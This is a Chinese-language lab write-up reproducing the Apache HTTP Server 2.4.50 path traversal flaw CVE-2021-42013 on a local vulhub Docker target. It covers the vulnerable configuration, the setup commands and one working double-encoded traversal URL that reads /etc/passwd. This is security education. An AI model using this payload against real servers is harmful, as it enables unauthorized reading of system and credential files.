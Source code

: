 # 一、概述
* `CVE-2021-42013` 在Apache Http Server 版本为2.4.50存在路径穿越漏洞，虽然在版本为2.4.49已经存在了相似的漏洞，且对漏洞进行修复，但是仍绕存在可以绕过的可能。
* 攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。
* 这个漏洞产生的原因与2.4.49 版本漏洞产生原因相同：
    * Apacher Server 版本等于2.4.49
    * 穿越的目录允许被访问，比如配置了`<Directory />Require all granted</Directory>`。**（默认情况下是不允许的）**


# 二、影响版本
Apache Http Server == 2.4.50

# 三、漏洞靶场复现
* 这里还是使用`vulhub`线下靶场进行测试
```
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-42013# ls
1.png  2.png  docker-compose.yml  Dockerfile  README.md  README.zh-cn.md
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-42013# pwd
/home/wq/vulhub-master/httpd/CVE-2021-42013
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-42013# docker-compose build
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-42013# docker-compose up -d
Creating network "cve-2021-42013_default" with the default driver
Creating cve-2021-42013_apache_1 ... done
root@wq:/home/wq/vulhub-master/httpd/CVE-2021-42013# 
```
* 靶场环境测试，开始访问：`http://192.168.10.134:8080/`发现可以正常访问，靶场搭建成功
![图 8](.images/CVE-2021-42013/IMG_20220116-144407438.png)  
![图 9](.images/CVE-2021-42013/IMG_20220116-144531763.png)  

# 四、开始漏洞复现
* 在`CVE-2021-41773`已经整理了在浏览器，由于编码问题不容易查看出问题，这里还是建议采用`BP`工具或者使用`linux`命令进程测试
* 开始访问：`http://192.168.10.134:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd`
![图 10](.images/CVE-2021-42013/IMG_20220116-152501569.png)  

# 总结：
`CVE-2021-42013`与`CVE-2021-41773` 很相似，一个apache http server 2.4.49版本，另一个是2.4.50版本，但是这种CVE的爆出都是有一定的前提，就是`<Directory />Require all granted</Directory>` 允许目录访问，所以在渗透测试的时候我们需要配合一些脚本快速测试，尝试是否可以跨目录访问